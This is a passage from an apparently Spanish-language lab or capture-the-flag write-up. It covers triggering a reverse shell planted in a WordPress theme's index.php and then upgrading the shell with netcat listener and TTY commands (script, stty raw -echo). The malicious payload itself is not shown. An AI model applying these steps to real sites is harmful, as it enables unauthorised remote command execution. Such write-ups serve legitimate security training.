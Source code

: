 5. Tenemos que ejecutar la página **index.php**, para que cuando se cargue, ejecute el código malicioso que le introdujimos y así recibir una **reverse shell**. Para ejecutar dicha página, tenemos que recordad que las páginas de Wordpress se guardan en la ruta `/wp-content/themes/nombre_de_la_plantilla/index.php`.
![](img/Pasted%20image%2020241208232026.png)


Si vamos a la terminal donde estamos a la escucha
![](img/Pasted%20image%2020241209211806.png#center)


Obtuvimos una ejecución remota de comandos **RCE**.

---


## Post-explotación

Haremos tratamiento de la *TTY*, para no perder la conexión y tener una consola de comandos interactiva.

- Empezamos en la reverse shell obtenida
```bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@host_/$ ^Z
zsh: suspended nc -nlvp 4444
```

![](img/Pasted%20image%2020241209211938.png#center)



- Ahora resetearemos la configuración de la shell que dejamos en segundo plano indicando **reset** y **xterm**
```bash
~$> stty raw -echo; fg
```
```bash
[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
![](img/Pasted%20image%2020241209212044.png#center)
